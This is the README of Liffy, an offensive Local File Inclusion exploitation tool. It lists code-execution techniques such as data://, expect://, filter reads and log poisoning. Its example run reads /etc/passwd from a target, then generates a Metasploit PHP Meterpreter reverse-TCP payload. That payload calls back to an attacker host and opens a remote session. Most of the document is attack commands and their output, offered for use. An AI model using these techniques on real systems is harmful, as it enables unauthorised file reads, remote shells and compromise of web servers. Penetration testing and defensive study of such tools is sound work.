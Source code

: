 Liffy
=====

Liffy is a Local File Inclusion Exploitation tool.  

Current features include: 

  - data:// for code execution
  - expect:// for code execution
  - input:// for code execution
  - filter:// for arbitrary file reads
  - /proc/self/environ for code execution in CGI mode
  - Apache access.log poisoning
  - Linux auth.log SSH poisoning
  - Direct payload delivery with no stager
  - Support for absolute and relative paths 
  - Support for cookies

! I have had issues with access log poisoning on current versions of Apache.  This not an issue with the payload delivery and or poisoning.  This is more of an issue with the request after the poisoning to kick off your shell.  This may require a browser refresh. !

Install
=======

Liffy requires the following libraries: requests, argparse, blessings, urlparse, daemon

*Update* - Liffy now has built-in web serving functionality for all techniques that use the staged approach.  This is built upon Python's simpleHTTPServer module, and is being daemonized once spawned as a process within core.py.  I have had some issues with socket reuse and the child process not being killed correctly, so QA would be appreciated, and or suggestions on how to design it better. 


Example Usage 
==============

```
./liffy --url http://target/pdfs/vulnerable.php?= --data
./liffy --url http://target/pdfs/vulnerable.php?= --data --nostager



ruckus:liffy rotlogix$ python liffy.py --url http://10.0.0.11/vuln/lfi.php?file= --filter


    .____    .__  _____  _____
    |    |   |__|/ ____\/ ____\__.__.
    |    |   |  \   __\   __<   |  |
    |    |___|  ||  |   |  |  \___  |
    |_______ \__||__|   |__|  / ____| v1.2
        \/                \/


[2014-08-03 19:36:33.002626] Checking Target: http://10.0.0.11/vuln/lfi.php?file=
[2014-08-03 19:36:33.002722] ......................................................................
[2014-08-03 19:36:33.791168] Target URL Looks Good!
[2014-08-03 19:36:33.791210] Filter Technique Selected!
[2014-08-03 19:36:33.791336] Please Enter File To Read: /etc/passwd
[2014-08-03 19:36:38.319685] Decoded: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-
data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-
Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false mysql:x:102:105:MySQL
Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin



    .____    .__  _____  _____
    |    |   |__|/ ____\/ ____\__.__.
    |    |   |  \   __\   __<   |  |
    |    |___|  ||  |   |  |  \___  |
    |_______ \__||__|   |__|  / ____| v1.2
        \/                \/


[2014-08-03 19:39:33.674202] Checking Target: http://10.0.0.11/vuln/lfi.php?file=
[2014-08-03 19:39:33.674297] ......................................................................
[2014-08-03 19:39:34.454758] Target URL Looks Good!
[2014-08-03 19:39:34.454795] Data Technique Selected!
[2014-08-03 19:39:34.454877] Please Enter Host For Callbacks: 10.0.0.4
[2014-08-03 19:39:37.112427] Please Enter Port For Callbacks: 6666
[2014-08-03 19:39:38.597878] Generating Wrapper
[2014-08-03 19:39:38.597955] ......................................................................
[2014-08-03 19:39:39.347935] Success!
[2014-08-03 19:39:39.348007] Generating Metasploit Payload
[2014-08-03 19:39:39.348059] ......................................................................
[2014-08-03 19:39:46.289658] Generated Metasploit Resource File
[2014-08-03 19:39:46.289704] Load Metasploit: msfconsole -r php_listener.rc
[2014-08-03 19:39:46.289734] Starting Web Server ...
[2014-08-03 19:39:46.289750] ......................................................................
[2014-08-03 19:39:47.049321] Press Enter To Continue When Your Metasploit Handler is Running ...


[*] Processing php_listener.rc for ERB directives.
resource (php_listener.rc)> use multi/handler
resource (php_listener.rc)> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (php_listener.rc)> set LHOST 10.0.0.4
LHOST => 10.0.0.4
resource (php_listener.rc)> set LPORT 6666
LPORT => 6666
resource (php_listener.rc)> set ExitOnSession false
ExitOnSession => false
resource (php_listener.rc)> exploit -j
[*] Exploit running as background job.

[*] Started reverse handler on 10.0.0.4:6666
[*] Starting the payload handler...
msf exploit(handler) > [*] Sending stage (40551 bytes) to 10.0.0.11
[*] Meterpreter session 1 opened (10.0.0.4:6666 -> 10.0.0.11:52410) at 2014-08-03 19:40:39 -0700
msf exploit(handler) >

```

Sidenote
========

Original release repository https://github.com/rotlogix/liffy is no longer available.
